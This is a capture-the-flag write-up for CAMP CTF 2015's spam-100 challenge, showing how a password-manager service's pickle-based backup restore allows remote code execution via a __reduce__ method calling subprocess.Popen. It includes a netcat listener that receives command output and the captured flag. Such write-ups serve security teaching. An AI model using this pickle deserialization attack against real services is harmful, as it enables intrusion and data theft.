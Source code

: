 # CAMP CTF 2015: spam-100

**Category:** Pwn
**Points:** 100
**Solves:** 107
**Description:**

> You have problems remembering all your different passwords?
>
> [Here](spam.py) is THE tool for you!
>
> `nc challs.campctf.ccc.ac 10113`


## Write-up

by [polym](https://github.com/abpolym)

This writeup is based on following writeups:

* <https://github.com/vito-lbs/cccctf/tree/master/spam>
* <https://pacmans.army/?p=290>
* <http://blog.whatever.io/2015/08/18/campctf-spam100-pwn/>

### Meta

Keywords:

* Python Pickle `pickle`
* Remote Code Execution `rce`

We are given a Python file, which essentially is a Password Manager Service.

Running it creates a service that listens on port `1024`:

```bash
remote$ python spam.py
[...] <listens>

# On another terminal:
$ nc localhost 1024
Welcome to Super Password Authentication Manager (SPAM)!
Menu:
1) List Passwords
2) Add a Password
3) Remove a Password
4) Backup Passwords
5) Restore backup
1
Listing 0 passwords:
---
Menu:
1) List Passwords
2) Add a Password
3) Remove a Password
4) Backup Passwords
5) Restore backup
2
Enter name of the site: www.secret.com
Enter password: secreter
Password successfully added.
Menu:
1) List Passwords
2) Add a Password
3) Remove a Password
4) Backup Passwords
5) Restore backup
1
Listing 1 passwords:
www.secret.com: secreter
---
Menu:
1) List Passwords
2) Add a Password
3) Remove a Password
4) Backup Passwords
5) Restore backup
4
Your backup: eJzTSCkw4ApWLy8v1ytOTS5KLdFLzs9V5yowBApCBFKLgFwjrmI9AC0+DWg=

Menu:
1) List Passwords
2) Add a Password
3) Remove a Password
4) Backup Passwords
5) Restore backup
3
Enter name of the site which should be deleted: www.secret.com
Entry successfully deleted.
Menu:
1) List Passwords
2) Add a Password
3) Remove a Password
4) Backup Passwords
5) Restore backup
1
Listing 0 passwords:
---
Menu:
1) List Passwords
2) Add a Password
3) Remove a Password
4) Backup Passwords
5) Restore backup
5
Paste your backup here: eJzTSCkw4ApWLy8v1ytOTS5KLdFLzs9V5yowBApCBFKLgFwjrmI9AC0+DWg=
Successfully restored 1 entries
Menu:
1) List Passwords
2) Add a Password
3) Remove a Password
4) Backup Passwords
5) Restore backup
1
Listing 1 passwords:
www.secret.com: secreter
---
Menu:
1) List Passwords
2) Add a Password
3) Remove a Password
4) Backup Passwords
5) Restore backup
```

We can list, add and remove passwords to sites as well as backup and restore them.

The site-password key-value pairs are stored in an dictionary named `entries`.

The vulnerability lies in the `spam_backup` and `spam_restore` functions.

When a user decides to backup data, `pickle` is first used to serialize the data using `pickle.dumps`, `zlib` then compresses the data and the data finally is base64 encoded and sent to the user.
When restoring backup data, the data provided by the user is base64 decoded, decompressed using `zlib` and finally deserialized using `pickle.loads`.

However, as shown in [this blog post](https://blog.nelhage.com/2011/03/exploiting-pickle/), `pickle.loads` calls the [`__reduce__` method of provided objects](https://docs.python.org/2/library/pickle.html#pickling-and-unpickling-extension-types) in order to know how to deserialize (and thus ["how to pickle"](https://docs.python.org/2/library/pickle.html#object.__reduce__)) the object.

To exploit this feature, we create a class object with a `__reduce__` method that executes arbitrary commands.
As described in [nelhage's blog post](https://blog.nelhage.com/2011/03/exploiting-pickle/), the method should return "either a string or tuple describing how to reconstruct this object on unpacking". Our tuple should consist of a callable and a tuple of arguments for this callable.

E.g. if we want to execute `subprocess.Popen('/bin/sh')`, the first tuple entry will be `subprocess.Popen` while the second entry will be a tuple containing the string `/bin/sh`: `('/bin/sh',)`.

[This python script](./solve.py) does the job:

```bash
# Terminal 1, listen for a connection on your site
$ while true; do nc -l 5555; done
[...]

# Terminal 2, execute solve.py with first argument being the command to be executed
$ p solve.py 'ls'
[+] Opening connection to localhost on port 1024: Done
[*] Closed connection to localhost port 1024

# Terminal 1, see output of ls
$ while true; do nc -l 5555; done
flag.txt
spam.py
[...]

# Terminal 2, read flag.txt
$ p solve.py 'cat flag.txt'
[+] Opening connection to localhost on port 1024: Done
[*] Closed connection to localhost port 1024

# Terminal 1, see flag.txt content
[...]
flag.txt
spam.py
CAMP15_76b5fad40644ac0616b301454250c408
```

The flag is `CAMP15_76b5fad40644ac0616b301454250c408`.

PS: If you want to read more about the pickle format (e.g. print out what `pickle.dumps(entries)` generates), have a look [here](https://www.cs.uic.edu/~s/musings/pickle.html).

Some alternative solutions such as [this writeup](http://reu.org.ua/camp-ctf-2015-spam.html) or [that writeup](http://sol.logdown.com/posts/2015/08/14/campctf-2015-pwn-spam) did provide the result of the `__reduce__` method directly.

## Other write-ups and resources

* <https://github.com/vito-lbs/cccctf/tree/master/spam>
* <https://pacmans.army/?p=290>
* <http://blog.whatever.io/2015/08/18/campctf-spam100-pwn/>
* [Russian](http://reu.org.ua/camp-ctf-2015-spam.html) 
* [Chinese](http://sol.logdown.com/posts/2015/08/14/campctf-2015-pwn-spam)
